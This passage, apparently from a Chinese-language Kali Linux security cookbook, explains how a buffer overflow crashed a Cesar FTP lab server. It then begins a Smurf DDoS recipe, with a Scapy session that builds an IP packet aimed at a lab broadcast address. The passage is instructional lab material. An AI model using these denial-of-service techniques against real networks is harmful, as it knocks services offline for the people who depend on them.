 通过返回到运行 Cesar 0.99 FTP 服务的 Windows XP 主机，我们可以看到`server.exe`应用程序崩溃了。 要在拒绝服务后恢复操作，必须手动重新启动 Cesar FTP 服务。

### 工作原理

一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。 此秘籍中讨论的特定脚本的工作原理是，在服务或操作系统崩溃的情况下，套接字将不再接受输入，并且脚本将无法完成整个有效载荷注入序列。 如果发生这种情况，脚本需要使用`Ctrl + C`强制关闭。在这种情况下，脚本将返回一个标识，表明后续载荷无法发送，并且服务器可能已崩溃。

## 6.3 Smurf DoS 攻击

smurf 攻击是历史上用于执行分布式拒绝服务（DDoS）放大攻击的最古老的技术之一。 此攻击包括向网络广播地址发送一系列 ICMP 回响请求，带有伪造的源 IP 地址。 当广播此回显请求时，LAN 上的所有主机会同时对收到的每个伪造请求的目标进行回复。 这种技术对现代系统的效率较低，因为大多数系统不会回复 IP 定向的广播流量。

### 准备

要执行smurf攻击，您需要有一个LAN，上面运行多个系统。 提供的示例将 Ubuntu 用作扫描目标。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。

### 操作步骤

为了尝试执行传统的 smurf 攻击，Scapy 可以用于从零开始构建必要的数据包。 为了从 Kali Linux 命令行使用 Scapy，请从终端使用`scapy`命令，如下所示。 为了向广播地址发送 ICMP 请求，我们必须首先构建此请求的层级。 我们将需要构建的第一层是 IP 层：

```
root@KaliLinux:~# scapy Welcome to Scapy (2.2.0) 
>>> i = IP() 
>>> i.display() 
###[ IP ]###  
    version= 4  
    ihl= None
    tos= 0x0
    len= None
    id= 1
    flags=
    frag= 0
    ttl= 64
    proto= ip
    chksum= None
    src= 127.0.0.1
    dst= 127.0.0.1
    \options\ 
>>> i.dst = "172.16.36.255" 
>>> i.display() 
###[ IP ]###
    version= 4
    ihl= None
    tos= 0x0
    len= None
    id= 1
    flags=
    frag= 0
    ttl= 64
    proto= ip
    chksum= None
    src= 172.16.36.224
    dst= 172.16.36.255
    \options\ 
```
